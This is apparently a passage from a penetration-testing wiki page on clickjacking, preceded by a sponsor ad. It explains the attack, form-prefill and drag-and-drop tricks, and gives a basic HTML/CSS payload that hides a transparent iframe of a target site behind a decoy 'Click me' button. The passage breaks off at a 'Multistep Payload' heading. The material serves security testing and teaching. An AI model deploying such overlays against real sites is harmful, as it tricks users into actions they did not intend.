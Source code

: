 \
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=clickjacking) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=clickjacking" %}

## What is Clickjacking

In a clickjacking attack, a **user** is **tricked** into **clicking** an **element** on a webpage that is either **invisible** or disguised as a different element. This manipulation can lead to unintended consequences for the user, such as the downloading of malware, redirection to malicious web pages, provision of credentials or sensitive information, money transfers, or the online purchasing of products.

### Prepopulate forms trick

Sometimes is possible to **fill the value of fields of a form using GET parameters when loading a page**. An attacker may abuse this behaviour to fill a form with arbitrary data and send the clickjacking payload so the user press the button Submit.

### Populate form with Drag\&Drop

If you need the user to **fill a form** but you don't want to directly ask him to write some specific information (like the email and or specific password that you know), you can just ask him to **Drag\&Drop** something that will write your controlled data like in [**this example**](https://lutfumertceylan.com.tr/posts/clickjacking-acc-takeover-drag-drop/).

### Basic Payload

```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

### Multistep Payload
